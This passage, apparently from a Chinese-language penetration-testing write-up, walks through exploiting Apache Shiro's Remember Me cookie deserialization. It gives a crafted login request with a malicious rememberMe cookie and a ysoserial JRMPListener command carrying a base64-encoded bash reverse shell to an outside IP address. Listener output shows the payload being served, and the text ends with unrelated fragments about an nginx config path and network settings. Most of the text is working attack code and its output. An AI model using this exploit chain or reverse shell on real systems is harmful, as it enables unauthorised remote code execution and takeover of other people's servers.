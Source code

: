 抓包，前台登录拦包，勾选`Remember Me`，截获数据包，替换cookie构造数据包：

```
POST /doLogin HTTP/1.1
underattack-host: underattack-host:8080
Content-Length: 55
Cache-Control: max-age=0
Origin: http://underattack-host:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://underattack-host:8080/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: rememberMe=RFUadguvSoq4kMm3ZwnkO/MHiokCrqrCURXUqUWaXLBM7/fBF65qvjWDFZeh49zHDRm5oKPU1AhmbEBaYRp3ASrQpHdp7mYrChOi51tmq9qkzWemDnjbUXtp8B6RF1EUNV2q2tKaKlf4AAR1hZIRJGbz4CpLeumNAeWB98f6/T0GaWJGGve9rP6l9/7iU5Y9Xj4ZmSBP6LgMHYF3TJ2DDdTNI4nPITeQI3S+9ol/BmT14Be5m0ENfOkm1cdm3L8Rj/pbeE842Y3nUioEdAXizCrOsCYT+u2QTWHt1YZLmB/xsfQvEV5bRpRJeRv/ps7V00PiXvCeaPQoDs541wqB75+/RRAdqU8TWnJE7YhvQVkxTRLvCjBTtwfkgA3XVA8X+518nh0wSoj8/Ajaoi5MbA==
Connection: close

username=asdmnin&password=asdasd&rememberme=remember-me
```
使用包监听6666端口：
```
root@iZj6cgn7odv59wmjjhe6zwZ:/home/tool/shiro_poc/POC-2/ysoserial/target# java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny41Mi4yMzMuOTIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}'
* Opening JRMP listener on 6666
```
发包，我们看到jrmp监听的端口已经有流量回流回来了，如下：
```
Have connection from /underattack-host:58272
Reading message...
Is DGC call for [[0:0:0, 356978429], [0:0:0, 2006635131]]
Sending return with payload for obj [0:0:0, 2]
Closing connection
Have connection from /underattack-host:58274
Reading message...
Is DGC call for [[0:0:0, 356978429], [0:0:0, -1104978848], [0:0:0, 2006635131]]
Sending return with payload for obj [0:0:0, 2]
Closing connection
```

## 案例

/usr/local/nginx/conf/nginx.conf

inet addr:192.168.100.242  Bcast:192.168.100.255  Mask:255.255.255.0
